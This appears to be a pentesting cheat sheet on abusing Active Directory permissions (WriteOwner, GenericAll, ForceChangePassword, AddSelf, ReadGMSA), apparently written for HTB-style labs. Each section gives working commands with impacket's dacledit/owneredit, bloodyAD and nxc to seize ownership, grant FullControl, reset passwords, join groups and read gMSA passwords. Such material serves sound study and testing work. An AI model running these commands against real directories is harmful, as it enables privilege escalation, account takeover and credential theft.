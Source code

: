 # WriteOwner

This gives you the ability to modify the owner of an object.

To modify the ownership of an object:
```bash
python /usr/share/doc/python3-impacket/examples/owneredit.py -action write -new-owner 'ownedUser' -target 'targetUser' 'domain.htb/ownedUser':'password'
```

To abuse the ownership of an object, you can grant yourself the GenericALL permission.
# GenericAll

This gives you full control over an object. You can manipulate the target as you wish. 

```bash
python /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'userToGrantPrivsTo' -target 'targetUser' 'domain.htb/user':'password'
```

## User 
If you have GenericAll on a user, you can do the following:
1) Perform Shadow Credentials to modify attributes and requests certificates for authentication.
2) Kerberoasting
3) ForceChangePassword

## OU
If you have GenericAll on an OU, you can add a new ACE on the OU that will inherit down to the objects under that OU. 

### Generic Descendent Object Takeover

```bash
python /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'userToGrantPrivsTo' -target-dn 'OU=NAMEOFOU,DC=NAMEOFDC,DC=HTB' 'domain.htb/user':'password'
```

# ForceChangePassword

Allows you to change the user's password without knowing that user's current password.

```bash 
bloodyAD --host "10.1.1.1" -d "domain.htb" -u 'ownedUser' -p "password" set password "targetUser" "password"
```

# AddSelf

This gives the ability to add itself to a group which will inherit the same privileges as that group.

```bash
bloodyAD --host "10.1.1.1" -d "domain.htb" -u "owneduser" -p "password" add groupMember "group" "userToAdd"
```

# ReadGMSA

Allows you to retrieve the password for a "Group Managed Service Account".

```bash 
nxc ldap domain.local -u "user" -p "password" --gmsa
```

